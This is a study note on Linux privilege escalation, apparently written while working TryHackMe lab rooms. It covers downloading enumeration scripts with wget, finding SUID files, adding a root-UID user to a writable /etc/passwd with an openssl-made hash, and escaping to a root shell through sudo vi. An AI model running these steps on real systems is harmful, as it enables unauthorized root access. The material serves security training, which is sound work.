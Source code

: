 # Linux Privilige Escalation

Important Tools
```
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh; chmod +x ./lse.sh
# ./lse.sh : to look at overview
# ./lse.sh -l 1 -i : to verbose
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh; chmod +x ./LinEnum.sh
# mkdir report
# ./LinEnum.sh -k password -e report -t

# important site
https://gtfobins.github.io/
```

## Common Linux PrivEsc
> https://tryhackme.com/room/commonlinuxprivesc

What does "privilege escalation" mean?  

At it's core, Privilege Escalation usually involves going from a lower permission to a higher permission. More technically, it's the exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

![privesc](./media/16-common-privesc.png)

There are two main privilege escalation variants:

- Horizontal privilege escalation: This is where you expand your reach over the compromised system by taking over a different user who is on the same privilege level as you
- Vertical privilege escalation (privilege elevation): This is where you attempt to gain higher privileges or access, with an existing account that you have already compromised

### Enumeration 
LinEnum is a simple bash script that performs common commands related to privilege escalation, saving time and allowing more effort to be put toward getting root

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
```bash 
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Abusing SUID/GUID Files

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: `find / -perm -u=s -type f 2>/dev/null` to search the file system for SUID/GUID files. Let's break down this command.

```bash
$ find / -perm -u=s -type f 2>/dev/null

find - Initiates the "find" command
/ - Searches the whole file system
-perm - searches for files with specific permissions
-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
-type f - Only search for files
2>/dev/null - Suppresses errors

```

### Exploiting Writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

The /etc/passwd file should have general read permission as many command utilities use it to map user IDs to user names. However, write access to the /etc/passwd must only limit for the superuser/root account. When it doesn't, or a user has erroneously been added to a write-allowed group. We have a vulnerability that can allow the creation of a root user that we can access.

The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

[as divided by colon (:)]

- Username: It is used when user logs in. It should be between 1 and 32 characters in length.
- Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
- User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
- Group ID (GID): The primary group ID (stored in /etc/group file)
- User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
- Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
- Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

**How to exploit a writable /etc/passwd**

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

`openssl passwd -1 -salt [salt] [password]`
`openssl passwd -1 -salt hacker tryhackme_password`

```
user7@polobox:/home/user3$ openssl passwd -1 -salt hacker tryhackme_password
$1$hacker$USbXjKgMZxKTGtRhS57M31
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

to create new user
```
# template
username:passwordhash:0:0:root:/root:/bin/bash
# our test 
thm:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/bin/bash

# su thm :with the password use added
```

### Escaping Vi Editor

use `sudo -l`
```
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
(root) NOPASSWD: /usr/bin/vi
```

search in : https://gtfobins.github.io/

to elevate
```
sudo vi
# once inside type
:!sh
# this will pop you a shell

# id 
uid=0(root)
```



## Linux PrivEsc
> https://tryhackme.com/room/linuxprivesc

wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh; chmod +x ./lse.sh
